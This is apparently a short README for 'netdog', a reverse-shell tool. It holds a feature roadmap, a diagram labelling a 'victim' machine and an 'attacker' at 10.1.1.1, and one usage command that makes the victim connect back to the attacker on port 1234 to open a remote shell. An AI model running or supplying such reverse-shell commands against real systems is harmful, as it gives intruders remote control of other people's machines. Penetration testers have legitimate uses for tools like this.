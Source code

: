 # Roadmap
- Reverse Shell
    - [ ] UDP
    - [ ] ICMP
    - [ ] Multi-sessions
    - [x] Auto reconnect
- Others
    - [ ] IPv6
    - [ ] HTTP/S Bind shell

# Reverse Shell
## TCP
```
+------------+            +------------+
|            |            |            |
|   victim   +------------>  attacker  |
|  (netdog)  |            |  10.1.1.1  |
|            |            |            |
+------------+            +------------+
```
```bash
./nd -host 10.1.1.1 # connect to attacker port 1234
```